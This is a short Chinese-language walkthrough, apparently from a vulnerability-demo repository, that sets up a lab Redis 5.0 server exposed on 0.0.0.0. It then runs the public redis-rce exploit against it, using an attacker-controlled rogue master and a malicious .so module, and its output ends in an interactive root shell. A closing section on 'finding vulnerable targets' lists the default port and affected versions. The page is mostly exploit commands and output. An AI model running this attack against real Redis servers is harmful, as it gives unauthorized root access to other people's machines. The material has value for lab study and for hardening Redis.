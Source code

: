 # Redis未授权通过主从复制GETSHELL


## 0x01 环境搭建

 靶机kali，ip地址192.168.1.16，安装redis服务命令。  

 wget http://download.redis.io/releases/redis-5.0.0.tar.gz  
 tar xzf redis-5.0.0.tar.gz  
 cd redis-5.0.0  
 make  


 编译好然后修改redis.conf文件，把127.0.0.1 改成 0.0.0.0  启动服务。  


 ./redis-server /root/redis-5.0.0/redis.conf  

 ![1](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/1.jpg)

## 0x02 漏洞利用

  攻击机Ubuntu，ip地址192.168.1.107，下载exp脚本，然后输入参数开始。

  git close https://github.com/Ridter/redis-rce  
  cd redis-rce  
  greekn@greekn:~/redis-rce$ python3 redis-rce.py -r 192.168.1.16 -L 192.168.1.107 -f exp_lin.so  
  
<br>  
   █▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄         █▄▄▄▄ ▄█▄    ▄███▄       
   █  ▄▀ █▀   ▀  █  █  ██   █     ▀▄       █  ▄▀ █▀ ▀▄  █▀   ▀  
   █▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄         █▀▀▌  █   ▀  ██▄▄        
   █  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀          █  █  █▄  ▄▀ █▄   ▄▀  
     █   ▀███▀   ███▀   ▐                    █   ▀███▀  ▀███▀        
   ▀                                       ▀                       <\br>
  
 [*] Connecting to  192.168.1.16:6379...  
 [*] Sending SLAVEOF command to server  
 [+] Accepted connection from 192.168.1.16:6379  
 [*] Setting filename  
 [+] Accepted connection from 192.168.1.16:6379  
 [*] Start listening on 192.168.1.107:21000  
 [*] Tring to run payload  
 [+] Accepted connection from 192.168.1.16:38875  
 [*] Closing rogue server...  

 [+] What do u want ? [i]nteractive shell or [r]everse shell: i  
 [+] Interactive shell open , use "exit" to exit...  
 $ whoami  
 root  
 $   

 ![2](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/2.jpg)

## 0x03 脆弱目标寻找  

 漏洞关键词redis 默认端口6379，影响版本 4.x/5.x  

 ![3](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/3.jpg)

 参考链接 https://paper.seebug.org/975/  

 ![4](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/4.jpg)

